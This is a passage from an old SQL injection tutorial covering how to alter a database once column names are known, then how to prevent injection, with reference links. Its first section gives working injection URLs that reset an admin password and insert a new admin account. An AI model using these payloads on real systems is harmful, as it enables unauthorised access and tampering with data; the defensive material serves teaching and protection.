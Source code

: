 # How to update/insert data into the database #

When we successfully gather all column name of a table, it is possible for us to UPDATE or even INSERT a new record in the table. For example, to change password for "neo":
<http://duck/index.asp?id=10;> UPDATE 'admin_login' SET 'password' = 'newpas5' WHERE login_name='neo'--
To INSERT a new record into the database:
<http://duck/index.asp?id=10;> INSERT INTO 'admin_login' ('login_id', 'login_name', 'password', 'details') VALUES (666,'neo2','newpas5','NA')--
We can now login as "neo2" with the password of "newpas5".

# How to avoid SQL Injection #

Filter out character like single quote, double quote, slash, back slash, semi colon, extended character like NULL, carry return, new line, etc, in all strings from:
    - Input from users
    - Parameters from URL
    - Values from cookie
For numeric value, convert it to an integer before parsing it into SQL statement. Or using ISNUMERIC to make sure it is an integer.
Change "Startup and run SQL Server" using low privilege user in SQL Server Security tab.
Delete stored procedures that you are not using like:
master..Xp_cmdshell, xp_startmail, xp_sendmail, sp_makewebtask

# External Links #

One of the earliest works on SQL Injection is the paper from Rain Forest Puppy about how he hacked PacketStorm.
<http://www.wiretrip.net/rfp/p/doc.asp?id=42&iface=6>
Great article on gathering information from ODBC error messages:
<http://www.blackhat.com/presentations/win-usa-01/Litchfield/BHWin01Litchfield.doc>
A good summary of SQL Injection on various SQL Server on 
<http://www.owasp.org/asac/input_validation/sql.shtml> 
Senseport's article on reading SQL Injection:
<http://www.sensepost.com/misc/SQLinsertion.htm> 
Other worth readings:
<http://www.digitaloffense.net/wargames01/IOWargames.ppt> 
<http://www.wiretrip.net/rfp/p/doc.asp?id=7&iface=6> 
<http://www.wiretrip.net/rfp/p/doc.asp?id=60&iface=6>
<http://www.spidynamics.com/whitepapers/WhitepaperSQLInjection.pdf>
